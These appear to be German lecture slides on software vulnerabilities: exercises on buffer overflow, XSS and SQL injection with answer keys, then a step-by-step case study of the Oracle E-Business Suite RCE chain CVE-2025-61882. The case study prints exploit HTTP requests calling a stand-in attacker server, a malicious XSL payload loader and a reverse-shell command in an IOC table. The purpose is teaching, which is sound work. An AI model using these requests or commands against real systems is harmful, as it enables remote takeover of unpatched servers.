    .. solution::
        :pwd: AVuln

        Die Länge von :code:`str` wird nicht validiert. Es kommt somit potentiel zu einem "Out-of-bounds Write" (:code:`strcpy(buffer,str)`). Ein String wäre jeder String, der länger als 16 Zeichen ist. Ein Angriffsvektor wäre z. B. ein String, der 17 Zeichen lang ist und am Ende ein :code:`\0` enthält. Die Auswirkung wäre ein Pufferüberlauf, der ggf. zur Ausführung von beliebigem Code führt.

.. class:: exercises

Übung: Schwachstelle(n)
-------------------------------------------------

.. exercise:: REST API

    Eine REST API verhält sich wie folgt, wenn man einem Blog einen Kommentar hinzufügt:

    .. code:: HTTP
        :number-lines:

        POST /post/comment HTTP/1.1
        Host: important-website.com
        Content-Length: 100

        postId=3&comment=This+<post>+was+helpful.&name=Karl+Gustav

    Fragt man danach den Webservice nach dem Kommentar, dann erhält man folgendes zurück:

    .. code:: HTML
        :number-lines:

        

            
Karl Gustav

            
This <post> was helpful.

    Bewerten Sie die Schwachstelle: CWE Name, problematische Codestelle(n), möglicher Angriffsvektor und mögliche Auswirkung.

    .. solution::
        :pwd: StoredXXS

        Es handelt sich um eine *Stored Cross-Site Scripting* Schwachstelle. Der Angreifer kann beliebigen Code ausführen, wenn er es schafft der angegriffenen Person den richtigen Link unterzuschieben. In diesem Fall wird der Code in der Variable :code:`comment` ausgeführt. Der Angreifer könnte also z. B. folgende Anfrage stellen:

        :code:`POST /post/comment HTTP/1.1 Host: important-website.com Content-Length: 100 postId=3&comment=&name=Karl+Gustav`

.. class:: exercises

Übung: Schwachstelle(n)
-----------------------------------------------------------------------

.. exercise:: SQL Abfrage mit Java

    .. code:: java
        :number-lines:

        String query =
            "SELECT account_balance FROM user_data WHERE user_name = "
                + request.getParameter("customerName");
        try {
            Statement statement = connection.createStatement( ... );
            ResultSet results = statement.executeQuery( query );
        }

    Bewerten Sie die Schwachstelle: CWE Name, problematische Codestelle(n), möglicher Angriffsvektor und mögliche Auswirkung.

.. class:: exercises

Übung: Schwachstelle(n)
-----------------------------------------------------------------------

.. note::
    :class: dd-margin-left-3em

    **URL Encoding**

    :%20: Leerzeichen

    :%22: "

    :%3C: <

    :%3E: >

    :%2F: /

.. exercise:: Verwendung von HTTP Query Parametern

    Sie beobachten folgendes Verhalten einer Webseite:

    **Anfrage**

    .. code:: http
        :number-lines:

        https://my-website.com/search?
              term=This%20is%20a%20%3C%22%3Egift%3C%2F%22%3E

    **Antwort**

    .. code:: HTML
        :number-lines:

        

            
This is a <">gift</">

        

    Bewerten Sie die Schwachstelle: CWE Name, problematische Codestelle(n), möglicher Angriffsvektor und mögliche Auswirkung.

    .. solution::
        :pwd: reflectedXXS

        Es handelt sich um eine *Reflected Cross-Site Scripting* Schwachstelle. Der Angreifer kann beliebigen Code ausführen, wenn er es schafft der angegriffenen Person den richtigen Link unterzuschieben. In diesem Fall wird der Code in der Variable :code:`term` ausgeführt. Der Angreifer könnte also z. B. folgende Anfrage stellen:

        :code:`https://my-website.com/search?term=``

.. class:: new-section transition-flip

Studium eines Real-World Exploits
-----------------------------------

.. container:: section-subtitle

    CVE-2025-61882

`Oracle E-Business Suite Pre-Auth RCE Chain - CVE-2025-61882 <https://www.oracle.com/security-alerts/alert-cve-2025-61882.html?ref=labs.watchtowr.com>`__
-----------------------------------------------------------------------------------------------------------------------------------------------------------------

.. deck::

    .. card::
                
        .. rubric:: Beschreibung

        .. epigraph::

            This vulnerability is remotely exploitable without authentication\ :incremental:`, i.e., it may be exploited over a network without the need for a username and password.` :incremental:`If successfully exploited, this vulnerability may result in remote code execution.`

            -- `Zusammenfassung von WatchTowr <https://labs.watchtowr.com/well-well-well-its-another-day-oracle-e-business-suite-pre-auth-rce-chain-cve-2025-61882well-well-well-its-another-day-oracle-e-business-suite-pre-auth-rce-chain-cve-2025-61882/>`__

        .. admonition:: Disclaimer
            :class: incremental

            Im Folgenden sind die Codeausschnitte reformatiert und stark auf das Wesentliche gekürzt. Wer mehr Informationen braucht, findet auf `WatchTowr <https://labs.watchtowr.com/well-well-well-its-another-day-oracle-e-business-suite-pre-auth-rce-chain-cve-2025-61882well-well-well-its-another-day-oracle-e-business-suite-pre-auth-rce-chain-cve-2025-61882>`__ die Analyse.

    .. card::

        .. class:: incremental-list

        - ein echter Zero-Day (inkl. Ausnutzung) (Oktober 2025)
        - eine Kette von kleineren und mittleren Schwachstellen, die zu einer Schwachstelle mit einem Rating von 9.8 führen. (:red:`Nur ein CVE dazu zu vergeben ist nicht die Norm!`)

          .. rubric:: CVSS Score Berechnung

          .. csv-table::
            :header: Attack Vector,	Attack C'plexity, Privs Req'd,	User Interact,	Scope,	Confi.,	Integrity,	Avail.
        
            Network,	Low,	None,	None,	Unchanged,	High,	High,	High	

        - der PoC ist frei verfügbar 

          .. container:: peripheral
            
            (Von einem *Threat Actor* zur Verfügung gestellt als Racheaktion gegen einen Zweiten.)
        - Zeigt einen sehr hohen Grad  von Können

        .. supplemental::

            Dadurch, dass nur ein CVE vergeben wurde, ist es zum Beispiel schwer nachzuvollziehen, ob ein Patch alle zu Grunde liegenden Schwachstellen behoben hat oder ob nur eine Schwachstelle behoben wurde und somit lediglich die Kette unterbrochen wurde.

    .. card::

        .. rubric:: 1. Server-side Request Forgery

        .. deck::

            .. card::

                .. rubric:: Initiale Schwachstelle

                .. code:: java
                    :number-lines:

                    ... else if (paramHttpServletRequest.getParameter("getUiType") != null) {
                      String str = paramHttpServletRequest.getParameter("redirectFromJsp");// [1]
                      XMLDocument xMLDocument = XmlUtil.
                          parseXmlString(paramHttpServletRequest.getParameter("getUiType"));// [0]
                      if (str == null || "false".equalsIgnoreCase(str)) { ... return; } 
                      createNew(
                        xMLDocument, 
                        httpSession, paramHttpServletRequest, paramHttpServletResponse); } // [2]

                .. container:: incremental:

                    **Analyse**

                    Der Code akzeptiert ein XML Dokument über den :java:`"getUIType"` parameter[0], wenn :java:`"redirectFromJsp"` [1] gesetzt ist. Dann wird der Wert an die Funktion :java:`createNew()` [2] weitergegeben. 
    
            .. card::

                .. rubric:: Verarbeitung des XML Dokuments

                .. code:: java
                    :number-lines:

                    String str1 = CZUiUtilities.resubXMLAndURLChars(
                        XmlUtil.getReturnUrlParameter(paramXMLDocument));
                    clientAdapter.setReturnUrl(str1);

                .. container:: incremental

                    **Analyse**

                    Aus dem Dokument wird der :java:`"returnUrl"` Parameter ausgelesen und nach einigen Schritten an die folgende Methode weitergeleitet.

            .. card::

                .. rubric:: SSRF

                .. code:: java
                    :number-lines:

                     protected void postXmlMessage(String paramString1, String paramString2) {
                      try {
                        URL uRL = getUrl(paramString1);
                        if (uRL != null) paramString1 = uRL.toExternalForm(); 
                        CZURLConnection cZURLConnection = new CZURLConnection(paramString1);
                        String[] arrayOfString1 = { "XMLmsg" };
                        String[] arrayOfString2 = { paramString2 };
                        cZURLConnection.connect(1, arrayOfString1, arrayOfString2);
                        cZURLConnection.close();
                      } catch (Exception exception) { ... } }

                **Analyse**

                Der Parameter wird ungefiltert an die :java:`.connect(...)` Methode übergeben.
    
            .. card::

                .. rubric:: Beispielhafte Anfrage

                .. code:: http
                    :number-lines:

                    POST /OA_HTML/configurator/UiServlet HTTP/1.1
                    Host: {{Hostname}}
                    Content-Type: application/x-www-form-urlencoded
                    Content-Length: 407

                    redirectFromJsp=1&getUiType=<@urlencode_all><?xml version="1.0" encoding="UTF-8"?>
                    <initialize>
                        <param name="init_was_saved">test</param>
                        <param name="return_url">http://{{external-host}}</param>
                    

                        <param name="ui_def_id">0</param>
                        <param name="config_effective_usage_id">0</param>
                        <param name="ui_type">Applet</param>
                    </initialize></@urlencode_all>

    .. card::

        .. rubric:: 2. Carriage Return/Line Feed (CRLF) Injection

        .. deck::

            .. card::
        
                .. rubric:: Beispielanfrage

                .. code:: http
                    :number-lines:
                
                    POST /OA_HTML/configurator/UiServlet HTTP/1.1
                    Host: {{Hostname}}
                    Content-Type: application/x-www-form-urlencoded
                    Content-Length: 524

                    redirectFromJsp=1&getUiType=<@urlencode><?xml version="1.0" encoding="UTF-8"?>
                    <initialize>
                        <param name="init_was_saved">test</param>
                        <param name="return_url"><http://attacker-oob-server>&#47;HeaderInjectionTest
                        &#32;HTTP&#47;1&#46;1&#13;&#10;InjectedHeader&#58;Injected&#13;&#10;&#32;&#13
                        ;&#10;&#13;&#13;&#10;&#13;&#13;&#10;&#13;&#13;&#10;POST&#32;&#47;</param>           
                        <param name="ui_def_id">0</param>
                        <param name="config_effective_usage_id">0</param>
                        <param name="ui_type">Applet</param>
                    </initialize></@urlencode>

            .. card::

                .. rubric:: Validierung der Injection mittels lokalem Server

                .. code:: bash
                    :number-lines:

                    [root@oob-server]# python3 server.py 80

                    [*] Serving raw HTTP on port 80

                    ==================================================

                    DUMPING RAW HTTP REQUEST from oracle-business-ip:19080

                    POST /HeaderInjectionTest HTTP/1.1
                    --- HEADERS ---
                    InjectedHeader: Injected

                .. attention:: 
                    :class: incremental

                    Es ist somit den Angreifern gelungen HTTP POST Requests durchzuführen!

            .. card::

                **Analyse**

                Der Angreifer kann beliebige Requests durchführen. Weiterhin ist der Angreifer in der Lage HTTP persistent connections zu nutzen (bisher nicht gezeigt; siehe finale Anfrage), was die Erkennungsmöglichkeiten weiter erschwert.

        .. supplemental::

            CRLF Injection im Zusammenhang mit einem SSRF kann eine Möglichkeit sein, Header und Parameter einzufügen, die sonst über die URL nicht kontrollierbar wären.

    .. card::

        .. rubric:: 3. Authentication Filter Bypass

        .. deck::
            
            .. card::

                .. rubric:: Ausgangssituation

                Eine typische Oracle E-Business Suite-Bereitstellung macht den Kern der Anwendung innerhalb eines HTTP-Dienstes zugänglich, der lokal an Port 7201/TCP gebunden ist über eine private IP Adresse (nicht ``localhost``). 
                
                .. question::
                    
                    Wie kommt man an diese IP Adresse?

                .. remark::
                    :class: incremental

                    Oracle EBS hat immer den folgenden Eintrag in der /etc/hosts Datei:

                    ::

                        # cat /etc/hosts
                        172.31.28.161   apps.example.com        apps

                    Die lokale IP ist somit an apps.example.com gebunden.

            .. card::

                **Analyse**

                Wir können somit Anfragen an :http:`http://apps.example.com:7201` stellen und erhalten Zugriff auf zahlreiche jsps und servlets.

                .. compound::
                    :class: incremental

                    Die Exploit-Kette nutzt als nächstes ein *Path Traveral*, um den Java-App-Filter zu umgehen, da der Pfad /help/ keine Authentifizierung erfordert. Durch Anhängen von ../ und der Zieldatei/dem Ziel-Servlet an eine an /OA_HTML/help/ gesendete HTTP-Anfrage kann die Exploit-Kette die Authentifizierungs-Whitelist umgehen.

    .. card::

        .. rubric:: 4. XSL Transformation (XSLT)

        .. deck::

            .. card::

                Zielservlet: ``/OA_HTML/help/../ieshostedsurvey.jsp``

                Der Code erstellt aus dem eingehenden :http:`Host:` Header eine Remote-URL, wodurch der Java-Code /``ieshostedsurvey.xsl`` vom Server des Angreifers herunterlädt.

                .. remark::

                    Da die XSLT-Verarbeitung in Java Templates und Erweiterungsfunktionen aufrufen kann, ermöglicht dies ein nicht vertrauenswürdiges Stylesheet zu laden und erlaubt dem Angreifer Remote Code Execution.

    .. card::

        **Vollständiger Request zum Triggern der Schwachstelle**

        .. scrollable::
            :height: 50%

            .. code:: http
                :number-lines:

                POST /OA_HTML/configurator/UiServlet HTTP/1.1
                Host: not-actually-watchtowr.com-stop-emailing-us-about-iocs:8000
                User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
                Accept-Encoding: gzip, deflate, br
                Accept: */*
                Connection: keep-alive
                CSRF-XHR: YES
                FETCH-CSRF-TOKEN: 1
                Cookie: JSESSIONID=_NG5Yg8cBERFjA5L23s9UUyzG7G8hSZpYkmc6YAEBjT71alQ2UH6!906988146; EBSDB=oSVgJCh0YacxUZCwOlLajtL2zo
                Content-Length: 847
                Content-Type: application/x-www-form-urlencoded

                redirectFromJsp=1&getUiType=<@urlencode><?xml version="1.0" encoding="UTF-8"?>
                <initialize>
                    <param name="init_was_saved">test</param>
                    <param name="return_url"><http://apps.example.com:7201><@html_entities>/OA_HTML/help/../ieshostedsurvey.jsp HTTP/1.2
                Host: attacker-oob-server
                User-Agent: anything
                Connection: keep-alive
                Cookie: JSESSIONID=_NG5Yg8cBERFjA5L23s9UUyzG7G8hSZpYkmc6YAEBjT71alQ2UH6!906988146; EBSDB=oSVgJCh0YacxUZCwOlLajtL2zo
                

                POST /</@html_entities></param>
                
                    <param name="ui_def_id">0</param>
                    <param name="config_effective_usage_id">0</param>
                    <param name="ui_type">Applet</param>
                </initialize></@urlencode>

    .. card::

                **Vom Angreifer ausgeliefertes XSL**

                .. code:: xslt
                    :number-lines:

                    <xsl:stylesheet version="1.0"
                        xmlns:xsl="<http://www.w3.org/1999/XSL/Transform>"
                        xmlns:b64="<http://www.oracle.com/XSL/Transform/java/sun.misc.BASE64Decoder>"
                        xmlns:jsm="<http://www.oracle.com/XSL/Transform/java/javax.script.ScriptEngineManager>"
                        xmlns:eng="<http://www.oracle.com/XSL/Transform/java/javax.script.ScriptEngine>"
                        xmlns:str="<http://www.oracle.com/XSL/Transform/java/java.lang.String>">
                        <xsl:template match="/">
                            <xsl:variable name="bs" 
                                select="b64:decodeBuffer(b64:new(),'[base64_encoded_payload]')"/>
                            <xsl:variable name="js" select="str:new($bs)"/>
                            <xsl:variable name="m" select="jsm:new()"/>
                            <xsl:variable name="e" select="jsm:getEngineByName($m, 'js')"/>
                            <xsl:variable name="code" select="eng:eval($e, $js)"/>
                            <xsl:value-of select="$code"/>
                        </xsl:template>
                    </xsl:stylesheet>

    .. card::

        .. rubric:: Fragwürdige *Indicators of Compromise* (IOCs)

        .. epigraph::

            The following indicators of compromise represent observed activity (not limited to CVE-2025-61882) and are provided to accelerate detection, threat hunting, and containment.
 
            .. csv-table:: 
                :class: booktabs s-font-size-80
                :width: 100%
                :header: Indicator,	Type,	Description

                200[.]107[.]207[.]26,	IP,	Potential GET and POST activity
                185[.]181[.]60[.]11,	IP,	Potential GET and POST activity
                sh -c /bin/bash -i >& /dev/tcp// 0>&1,	Command, Establish an outbound TCP connection over a specific port
                76b6d36e04e367a23[...]ca0f31235d,	SHA 256, "oracle_ebs_nday_exploit_poc
                _scattered_lapsus_retard_cl0p
                _hunters.zip"
                aa0d3859d6633b62b[...]0c73d41121,	SHA 256, "oracle_ebs_nday_exploit_poc
                _scattered_lapsus_retard-cl0p_hunters/exp.py"
                6fd538e4a8e3493dd[...]f34b882c1b,	SHA 256, "oracle_ebs_nday_exploit_poc
                _scattered_lapsus_retard-cl0p_hunters/server.py"
    